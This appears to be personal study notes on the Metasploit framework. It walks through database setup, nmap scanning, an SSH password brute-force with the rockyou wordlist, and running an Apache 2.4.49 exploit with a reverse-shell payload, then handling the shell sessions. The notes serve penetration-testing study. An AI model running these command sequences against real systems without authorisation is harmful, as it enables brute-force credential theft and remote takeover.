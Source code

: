 ```yaml
---
tags:
---
```

# metasploit

Exploitation framework

## Capabilities

### Initialization

```bash
# Initialize the database
sudo msfdb init

# Enable the database service at boot time
sudo systemctl enable postgresql

# Start metasploit
sudo msfconsole -q

# Check database status
db_status

# Display modules
show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
```

### Workspaces

```bash
# Display workspaces
workspace

# Create a new workspace
workspace -a example_workspace
```

### Fundamentals

Command categories

- Core Commands
- Module Commands
- Job Commands
- Resource Script Commands
- Database Backend Commands
- Credentials Backend Commands
- Developer Commands

#### Database Backend Commands

```bash
# Execute nmap within metasploit
db_nmap -A $IP

# List discovered hosts
hosts

# List discovered services from nmap scans
services
services -p 8000
```

### Auxiliary Modules

```bash
# SMB auxiliary module command sequence
show auxiliary
search type:auxiliary smb
use 56
info
show options
set RHOSTS $IP
# OR set RHOSTs with database
services -p 445 --rhosts
run
vulns

# SSH auxiliary module command sequence
search type:auxiliary ssh
use 15
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME george
set RHOSTS $IP
set RPORT 2222
run
creds
```

### Exploit modules

```bash
# Apache exploit module command sequence
workspace -a exploits
search Apache 2.4.49
use 0
info
show options
set payload payload/linux/x64/shell_reverse_tcp
show options
set SSL false
set RPORT 80
set RHOSTS $IP
run
# OR run as a job to require us to interact with the session before accessing it
run -j
```

Now inside shell on target

```bash
id

# Background session with Ctrl + z
^Z
y
```

Back in metasploit

```bash
# List sessions
sessions -l

# Interact with a session
sessions -i 2

# Kill a session
sessions -k 2
```
